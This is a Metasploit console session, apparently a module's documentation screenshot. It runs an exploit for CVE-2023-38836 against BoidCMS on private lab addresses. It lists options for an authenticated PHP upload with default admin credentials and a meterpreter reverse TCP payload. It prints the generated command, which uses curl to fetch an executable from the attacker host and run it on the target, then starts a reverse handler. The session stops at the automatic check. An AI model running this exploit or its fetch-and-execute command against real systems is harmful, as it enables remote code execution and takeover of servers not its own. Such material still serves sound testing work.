 ```
msf6 exploit(multi/http/cve_2023_38836_boidcms) > show options

Module options (exploit/multi/http/cve_2023_38836_boidcms):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CMS_PASSWORD  password         yes       Password
   CMS_USERNAME  admin            yes       Username
   PHP_FILENAME  eI1lHLx.php      yes       The name for the php file to upload
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.5.134.102     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                            metasploit.html
   RPORT         80               yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI                      yes       The path
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                           no        Comma-separate list of extensions to load
   EXTINIT                              no        Initialization strings for extensions
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      EwRzYaki         no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/cve_2023_38836_boidcms) > run

[*] Command to run on remote host: curl -so %TEMP%\YnmWUfMzCxY.exe http://10.5.135.201:8080/h8r3u5VU3v-qeqUW3_anLw & start /B %TEMP%\YnmWUfMzCxY.exe
[*] Fetch Handler listening on 10.5.135.201:8080
[*] HTTP server started
[*] Adding resource /h8r3u5VU3v-qeqUW3_anLw
[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
```